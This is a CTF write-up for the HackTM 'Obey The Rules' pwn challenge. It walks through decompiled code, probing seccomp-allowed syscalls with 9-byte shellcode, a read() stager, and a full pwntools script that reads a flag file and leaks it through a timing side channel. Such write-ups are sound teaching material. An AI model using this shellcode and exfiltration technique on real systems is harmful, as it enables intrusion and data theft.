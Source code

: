 ```yaml
---
layout: post
category: Pwn
title: HackTM - Obey The Rules
tags: 
    - kowu
---
```


Obey the rules was a simple pwning / shellcoding challenge at HackTM. Loading in r2 we see the following:

```
user@KARCH ~/ctf/rules % r2 obey_the_rules
 -- Press any key to continue ...
[0x00400a70]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400a70]> s main
[0x00400ce1]> pdg

undefined8 main(void)
{
    int64_t iVar1;
    int32_t iVar2;
    undefined8 uVar3;
    int64_t in_FS_OFFSET;
    int64_t var_84h;
    int64_t var_78h;
    int64_t var_70h;
    int64_t var_8h;
    
    iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.init_proc();
    sym.imp.memset(&var_70h, 0, 100);
    sym.open_read_file((int64_t)"header.txt", 100, (int64_t)&var_70h);
    sym.imp.puts(&var_70h);
    var_84h._0_4_ = sym.open_read_file((int64_t)"description.txt", 800, (int64_t)obj.description);
    sym.imp.printf("\n    %s\n  ", obj.description);
    sym.imp.puts(" >> Do you Obey? (yes / no)");
    sym.imp.read(0, obj.answer, 0xb);
    var_84h._0_4_ = sym.open_read_file((int64_t)"RULES.txt", 0x96, (int64_t)obj.rules);
    var_84h._4_2_ = (undefined2)((int32_t)var_84h >> 3);
    iVar2 = sym.imp.prctl(0x26, 1, 0, 0, 0);
    if (iVar2 < 0) {
        sym.imp.perror("prctl(PR_SET_NO_NEW_PRIVS)");
    // WARNING: Subroutine does not return
        sym.imp.exit(2);
    }
    iVar2 = sym.imp.prctl(0x16, 2, (int64_t)&var_84h + 4);
    if (iVar2 < 0) {
        sym.imp.perror("prctl(PR_SET_SECCOMP)");
    // WARNING: Subroutine does not return
        sym.imp.exit(2);
    }
    iVar2 = sym.imp.strcmp(obj.answer, "Y");
    if (iVar2 == 0) {
        sym.set_context();
    } else {
        sym.imp.system("/bin/sh");
    }
    uVar3 = 0;
    if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar3 = sym.imp.__stack_chk_fail();
    }
    return uVar3;
}

[0x00400ce1]> pdg @sym.set_context

void sym.set_context(void)
{
    int64_t iVar1;
    int64_t var_8h;
    
    iVar1 = sym.imp.strlen(obj.answer);
    obj.answer[iVar1] = (code)0x59;
    sym.imp.strcpy(_obj.region, obj.answer);
    (*_obj.region)(0x539);
    return;
}
[0x00400ce1]> 
```
First of all, we see that the r2 ghidra plugin is nice for quick decompilation needs. Second, we see what the challenge does:
 - printing some fancy headers
 - reading a maximum of 11 Bytes from stdin
 - loading seccomp rules unknown to us out of a file
 - if the input is "Y\0", it will jump into our sumbitted input and executes it (the nullybte is replaced by another 'Y')
 - else it executes /bin/sh, which is killed due to seccomp

So after excluding "Y\0" we have a total of 9 bytes left for shellcode.

## Testing for allowed syscalls

First I checked which syscalls are allowed. If a syscall was forbidden, it would report `illegal instruction`, else a `segmentation fault` occurs.
As we could not use nullbytes due to the strcpy, i checked the syscall id 0 case manually and used the following code for the other syscalls up to 255:
```
xor rax, rax;
mov al, {nr};
syscall;
ud2;
```
Which compiles down to exactly 9 bytes. The ud2 is optional and should just crash immediately if the syscall succeeded.
I found out that the syscalls (0 read, 2 open, 60 exit) are allowed.
That's enough to work with as the flag location was given and even if a write is lacking I could just use some sidechannel to exfiltrate the flag.

## Getting unlimited RCE

To get unlimited RCE I planned to reread additonal shellcode by using something like read(0, $rip, amount). We need to get:
 - rax = 0
 - rdi = 0
 - rsi = $rip
 - rdx = amount

The only "trick" I used to save bytes was using `push rbx; pop rax;` (2 bytes) instead of moving registers with `mov rax, rbx;` (3 bytes).
For getting rax = rdi = 0 I used the fact that register rbx would always be zero, which lead to the following shellcode.
```
push rbx;
push rbx;
pop rax;
pop rdi;
```
To get rsi right in front of our $rip I used the fact that the current top of stack just holds exactly that value.
```
pop rsi;
```
Lastly I wanted to read some bigger amount, so I just wrote 0xff to rdx's high byte.
```
mov dh, 0xff;
```
Two bytes left for the syscall, we are ready to overwrite the code at $rip :)
```
syscall;
```

## Sidechannels and Profit

For exfiltrating the flag there are two sidechannels which came to my mind.
 - timing based (burn cpu cycles using some loop)
 - blocked syscall based (1/0 oracle by calling a blocked syscall or exit normally)

I decided to go with the timing one. To speed things up one could implement fancy stuff like a binary search or burn CPU power depending on the currently exfiltrated character with that approach. I did not.
So here is the final script stupidly bruteforcing all possibilities. Notice that I open the file twice to increment the fd id. Because the seccomp filter seemed to block read syscalls with fd==3.

```python
from pwn import *
import time

context.clear(arch='amd64')

payload1 = asm(
    """
    push rbx;
    push rbx;
    pop rax;
    pop rdi;
    pop rsi;
    mov dh, 0xff;
    syscall;
    """
)
assert len(payload1) < 10

payload2 = (
        shellcraft.open('/home/pwn/flag.txt') +
        shellcraft.open('/home/pwn/flag.txt') +
        shellcraft.read(fd='rax', buffer='rsp', count=0x100) +
        'xor rcx, rcx;' +
        'mov al, [rsp + {}];' +
        'cmp al, {};' +
        'jne done;' +
        'mov rcx, 0x3ffffff;' +
        'times:\nloop times;done:;' +
        shellcraft.exit(0)
)


def sploit(r, idx, ch):
    r.send('Y\0' + payload1.ljust(9, '\x90') + '\x90' * 11 + asm(payload2.format(idx, ch)))


if __name__ == '__main__':
    flag = ''

    while True:
        print(flag)
        for c in string.printable:
            r = remote('138.68.67.161', 20001)
            r.recvuntil('>>')
            sploit(r, len(flag), ord(c))
            a = time.time()
            try:
                r.recvuntil('yeet')
            except EOFError:
                pass
            if time.time() - a > 0.8:
                flag += c
                break
            r.close()
```
